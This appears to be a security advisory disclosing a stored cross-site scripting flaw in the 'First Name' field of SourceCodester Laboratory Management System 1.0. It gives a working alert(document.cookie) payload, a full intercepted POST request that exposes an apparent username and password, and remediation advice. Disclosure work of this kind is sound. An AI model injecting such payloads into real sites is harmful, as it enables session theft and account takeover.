 Stored Cross-Site Scripting Vulnerability in SourceCodester Laboratory Management System 1.0 
:

    Vendor: Sourcecodester
    Product: Laboratory Management System 1.0
    Product URL: Laboratory Management System 1.0

Executive Summary

Stored Cross-Site Scripting (SXSS) vulnerability in Laboratory Management System 1.0 and earlier allows attacker to inject the Malicious JavaScript Code in the "First Name" input field. The malicious code can then be executed whenever the vulnerable web page is accessed by any user, staff or even admin and will remain persistent. It will eventually result in account takeover as the session cookies can be accessed by the malicious JavaScript Code.
Issue Details

    Vulnerability Name: Stored XSS in First Name
    Severity: High
    Affected URL: /php-lms/classes/Users.php?f=save
    Affected Parameter: First Name
    HTTP Method: POST

Issue Description

The web application is vulnerable to Cross-Site Scripting (SXSS) attacks in the "First Name" input field. An attacker can exploit this vulnerability by inputting the malicious JavaScript code in the HTTP POST request to create the user. In the provided example, the attacker modifies the "First Name" parameter to insert a malicious JavaScript Code that can also access the authentication cookies.
Proof Of Concept

Configure a web proxy in your browser.

Navigate to the URL in the browser http://localhost/php-lms/classes/Users.php?f=save

Fill in the desired data in the input fields. Intercept the request in the web proxy. Modify the First Name parameter as shown below and send the request to the server.

 -----------------------------20625722601167454874980765703
Content-Disposition: form-data; name="firstname"

"><img src=x onerror=alert(document.cookie)>


 In the browser just create an account and navigate to homepage

https://drive.google.com/file/d/1L06qR4OZYnUAwMvf-QvLq1KS8tNi9Xmf/view?usp=drive_link
Payload:

Content-Disposition: form-data; name="firstname"

"><img src=x onerror=alert(document.cookie)>


Request:

POST /php-lms/classes/Users.php?f=save HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------28315272284843807941132131392
Content-Length: 1176
Origin: http://localhost
Connection: close
Referer: http://localhost/php-lms/admin/?page=user/manage_user
Cookie: PHPSESSID=ne013b16edsf0e0up00dsppfhb
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

-----------------------------28315272284843807941132131392
Content-Disposition: form-data; name="id"


-----------------------------28315272284843807941132131392
Content-Disposition: form-data; name="firstname"

"><img src=x onerror=alert(document.cookie)>
-----------------------------28315272284843807941132131392
Content-Disposition: form-data; name="middlename"

"><img src=x onerror=alert(document.cookie)>
-----------------------------28315272284843807941132131392
Content-Disposition: form-data; name="lastname"

"><img src=x onerror=alert(document.cookie)>
-----------------------------28315272284843807941132131392
Content-Disposition: form-data; name="username"

mohit.ahir7086@gmail.com
-----------------------------28315272284843807941132131392
Content-Disposition: form-data; name="password"

Ramasra1247@
-----------------------------28315272284843807941132131392
Content-Disposition: form-data; name="type"

1
-----------------------------28315272284843807941132131392
Content-Disposition: form-data; name="img"; filename=""
Content-Type: application/octet-stream


-----------------------------28315272284843807941132131392--


Impact:

Stored XSS attacks can have serious consequences, such as Account takeover by stealing cookies, stealing sensitive data, modifying the content of the web page, or redirecting users to a malicious sites.
Remediation:

Implement proper input validation and output encoding to prevent malicious code from being injected into the web application. Use server-side validation to ensure that user input is properly sanitized before being stored in a database or displayed on a web page. Use output encoding to ensure that any user input that is displayed on the web page is properly encoded to prevent malicious code from being executed.
References:

https://portswigger.net/web-security/cross-site-scripting/stored

https://owasp.org/www-community/attacks/xss/
Weakness Enumeration:

CWE-79

This report highlights the Stored XSS vulnerability present in the First Name parameter of  /php-lms/classes/Users.php?f=save, including the Proof of Concept, its impact, remediation steps and references for further guidance on mitigation strategies.